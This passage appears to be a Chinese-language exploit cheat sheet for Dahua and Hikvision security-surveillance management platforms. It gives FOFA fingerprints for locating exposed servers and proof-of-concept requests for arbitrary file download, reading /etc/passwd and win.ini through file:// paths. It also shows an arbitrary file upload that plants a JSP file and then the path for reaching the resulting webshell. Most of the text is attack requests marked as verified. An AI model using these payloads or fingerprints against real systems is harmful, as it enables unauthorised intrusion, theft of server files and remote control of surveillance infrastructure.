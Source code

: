 ##### user_save.action 任意文件上传 ✅

漏洞指纹：

```
POST /admin/user_save.action
```

```
POST /WPMS/getPublicKey
```

#### 大华 城市安防监控系统平台管理 

FOFA：

```
"attachment_downloadByUrlAtt.action"
```

##### attachment_downloadByUrlAtt.action 任意文件下载 ✅

poc：

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

#### HIKVISION iVMS-8700综合安防管理平台

FOFA：

```
icon_hash="-911494769"
```

##### 任意文件下载 ✅

验证POC，token 为 URL md5：

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

##### 任意文件上传 ✅

发送请求包上传文件：

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

访问webshell：

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

